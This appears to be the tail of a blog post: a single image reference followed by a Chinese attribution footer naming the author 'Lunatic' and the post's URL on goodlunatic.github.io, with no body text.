


---

> 作者: [Lunatic](https://goodlunatic.github.io)  
> URL: https://goodlunatic.github.io/posts/5de0d7e/  

